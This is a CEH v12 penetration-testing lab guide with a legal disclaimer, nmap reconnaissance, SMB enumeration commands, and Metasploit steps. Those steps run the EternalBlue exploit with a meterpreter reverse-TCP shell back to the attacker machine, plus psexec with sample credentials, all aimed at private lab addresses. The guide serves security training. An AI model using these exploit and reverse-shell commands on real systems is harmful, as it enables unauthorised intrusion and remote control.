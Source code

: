 # CEH v12 Penetration Testing Lab Guide - Windows & Linux

## ⚠️ Important Legal Disclaimer

**This guide is for educational purposes only in authorized lab environments.**
- Only test systems you own or have explicit written permission to test
- Use isolated, offline lab environments
- Follow responsible disclosure practices
- CEH emphasizes **ethical** hacking principles

---

# Windows Penetration Testing

## 🏠 Windows Lab Environment Setup

### Virtualization Setup
```bash
# Recommended Network Configuration
Attacker (Kali Linux): 192.168.100.10
Windows Target: 192.168.100.20
Additional Target: 192.168.100.30
```

## 📋 Windows Methodology

### 1. Reconnaissance
```bash
nmap -sn 192.168.100.0/24
nmap -sS -sV -O 192.168.100.20
```

### 2. SMB/NetBIOS Enumeration
```bash
nmap --script smb-os-discovery 192.168.100.20
nmap --script smb-enum-shares 192.168.100.20
enum4linux -a 192.168.100.20
smbclient -L //192.168.100.20 -N
```

### 3. Common Windows Exploits
```bash
# EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.100.20
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.10
exploit

# SMB Psexec
use exploit/windows/smb/psexec
set RHOSTS 192.168.100.20
set SMBUser administrator
set SMBPass Password123
exploit
```
